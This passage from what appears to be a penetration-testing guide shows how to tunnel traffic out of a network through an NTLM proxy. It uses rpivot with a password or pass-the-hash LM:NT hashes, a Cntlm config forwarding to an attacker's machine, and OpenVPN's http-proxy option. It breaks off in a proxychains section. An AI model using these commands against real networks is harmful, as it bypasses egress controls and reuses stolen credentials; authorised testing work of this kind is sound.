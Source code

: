 ```
python client.py --server-ip <rpivot_server_ip> --server-port 9999\
--ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --password P@ssw0rd
```

Or if you have LM:NT hashes instead of password:

```
python client.py --server-ip <rpivot_server_ip>\
--server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```

#### Cntlm

[Cntlm](http://cntlm.sourceforge.net/) is the tool of choice for running any non-proxy aware programs over NTLM-proxy. Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. Here's a barebones config example to forward port 443 (this port is most likely to be allowed through the proxy):


```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```

Run it:

`cntlm.exe -c config.conf`

Or if you're on Linux:

`./cntlm -c config.conf`

Now, given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.

#### OpenVpn over HTTP proxy

[OpenVpn](https://openvpn.net/index.php/open-source/documentation/howto.html) is huge so its configuration from the ground up is out of scope of this post. Just a quick mention - it also supports tunneling tcp connections over NTLM proxies. Add this line to your config file:

`http-proxy <proxy_ip> 8080 <file_with_creds> ntlm`

Credential file should contain username and password on separate lines. And, yes, you'll need root.


## Making use of SOCKS with proxychains

If your program doesn't use raw sockets (nmap syn-scan, for example) then most probably you can use `proxychains` to force your program though the socks proxy. Edit proxy server in /etc/proxychains.conf:
